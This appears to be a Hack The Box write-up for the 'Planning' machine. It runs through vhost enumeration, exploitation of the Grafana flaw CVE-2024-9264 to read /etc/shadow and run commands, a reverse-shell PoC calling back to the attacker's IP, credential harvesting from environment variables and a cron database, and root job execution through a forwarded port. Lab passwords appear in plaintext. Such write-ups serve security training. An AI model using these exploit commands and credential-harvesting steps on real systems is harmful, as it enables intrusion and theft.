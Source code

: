 https://app.hackthebox.com/machines/660

## INFO

`admin / 0D5oT70Fq13EvB5r`

## ENUM

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

```
gobuster vhost -u http://planning.htb --append-domain -w /usr/share/wordlists/namelist.txt -r                  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/namelist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 200 [Size: 38241]
```

## Initial access:

Since the site itself didn’t give me any leads, I decided to check:
`grafana.planning.htb`

and I used the provided credentials.

On Grafana nothing interesting, so I looked for an exploit and found:
[https://github.com/nollium/CVE-2024-9264/tree/main](https://github.com/nollium/CVE-2024-9264/tree/main)

I tested it and set up a virtual environment:

```
┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ export PATH="$HOME/.pyenv/bin:$PATH"
eval "$(pyenv init -)"
eval "$(pyenv virtualenv-init -)"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ exec "$SHELL"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv virtualenv 3.10.13 ten-env

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv activate ten-env
```

Finally I attempted the exploit:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
...
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

I also tried to get `/etc/shadow`:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/shadow http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/shadow
...
grafana:*:19857:0:99999:7:::
```

But this shows it’s not crackable because of the `*` at the start of the hash!

I tried to obtain a shell:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c ls http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls
...
LICENSE
bin
conf
public
```

The command works, so I tried various revshell payloads but everything failed so I found another PoC here:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py)

which allows a reverse shell connection:

```python
python3 exploit.py --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 4848 --url http://grafana.planning.htb
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4848
```

---

## OWN USER:

While exploring I found this in the environment variables:

```
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
```

A user: `enzo`
And a password: `RioTecRANDEntANT!`

And this found by linpeas:

```
/usr/share/grafana/public/app/plugins/datasource/azuremonitor/credentials.ts
/usr/share/grafana/public/emails/reset_password.html
/usr/share/grafana/public/emails/reset_password.txt
/usr/share/grafana/public/app/partials/reset_password.html
```

I keep that in mind, but for now I tried SSH login with the found user and password — and it worked!

---

### OWN ROOT

I reran linpeas and found these files:

```
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data                                                   
Found /opt/crontabs/env.db: empty
```

Network ports:

```
127.0.0.1:3000 (Grafana)
127.0.0.1:8000 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
0.0.0.0:80
```

So another internal web server is open.

I downloaded the files for analysis and then did port forwarding:

**crontab.db**

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I found a password linked to root: `P4ssw0rdS0pRi0T3c` — however it is not the actual root password, maybe linked to the web service?

I forwarded:
`ssh enzo@10.10.11.68 -L 8000:127.0.0.1:8000`

And I connected to the interface with:
`root / P4ssw0rdS0pRi0T3c`

And I landed on an interface that lets me run jobs as root, perfect!

I made a bash script to exfiltrate the contents of root with a simple:
`ls /root > /tmp/.zeroz/result`

I saw `root.txt` in the results, so I exfiltrated it:
`cat /root/root.txt > /tmp/.zeroz/flag`